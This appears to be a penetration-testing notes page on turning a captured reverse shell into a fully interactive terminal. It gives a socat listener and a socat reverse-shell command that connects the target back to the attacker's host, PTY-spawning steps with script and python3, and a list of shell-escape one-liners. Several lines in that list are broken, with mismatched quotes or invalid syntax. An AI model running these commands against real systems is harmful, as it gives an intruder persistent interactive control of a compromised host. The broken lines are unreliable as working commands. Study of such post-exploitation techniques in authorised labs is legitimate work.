 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Upgrade

## TL;DR

| Term | Meaning        |
| ---- | -------------- |
| tty  | teletype       |
| pty  | pseudoterminal |

### Why

Ability to CTRL+C, tab completion, clear screen, up and down arrows, text editing, etc.

## Process

### Socat

An upgraded shell can be spawn right away if `socat` is on the target host. Set up a listener from the attack host.

```bash
socat file:$(tty),raw,echo=0 tcp-listen:1337
```

On the target host.

```bash
# check if socat exists
which socat
# reverse shell command
socat exec:'bash -li',pty,stderr tcp:<ip>:1337
```

### Script/Python

Check if Python3/Script is installed on the target.

{% tabs %}
{% tab title="Script" %}
```bash
which script
```
{% endtab %}

{% tab title="Python3" %}
```bash
which python3
```
{% endtab %}
{% endtabs %}

Spawn bash with Script or Python3.

{% tabs %}
{% tab title="Script" %}
```bash
script /dev/null -c /bin/bash
```
{% endtab %}

{% tab title="Python3" %}
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
{% endtab %}
{% endtabs %}

Send tty to the backgroup (`CTRL+Z`) and check terminal's type and dimensions.

```bash
echo $TERM && stty size
```

Disable echo, send I/O straight through, and bring process to foreground.

```bash
stty raw -echo; fg
```

Press enter, reset terminal, and input the terminal type (`xterm`/`screen`).

```bash
reset
```

Match tty's dimensions to the hosts.

```bash
stty rows 51 cols 209
```

Set the `TERM` variable to the terminal's type.

```bash
export TERM=xterm
```

<figure><img src="../../.gitbook/assets/shell_stab_py.png" alt=""><figcaption></figcaption></figure>

```bash
# the whole process
which script
script /dev/null -c /bin/bash
^Z
echo $TERM && stty size
stty raw -echo; fg
reset
stty rows 51 cols 209
export TERM=xterm
```

## Alternatives

Other ways to spawn a bash/sh shell.

```bash
# echo
echo 'os.system('/bin/bash')'
# sh
/bin/sh -i
# bash
/bin/bash -i
# perl
perl -e 'exec "/bin/sh";'
perl: exec "/bin/sh";
# ruby
ruby: exec "/bin/sh"
# awk
awk 'BEGIN {system("/bin/sh")}'
# find
find / -name blahblah 'exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
# lua
lua: os.execute('/bin/sh')
# type more, less, or man command with a file then try
'! /bin/sh'
'!/bin/sh'
'!bash'
```

{% tabs %}
{% tab title="0xdf" %}
{% embed url="https://www.youtube.com/watch?v=DqE6DxqJg8Q" %}
{% endtab %}

{% tab title="NullByte" %}
{% embed url="https://null-byte.wonderhowto.com/how-to/upgrade-dumb-shell-fully-interactive-shell-for-more-flexibility-0197224/" %}
{% endtab %}
{% endtabs %}
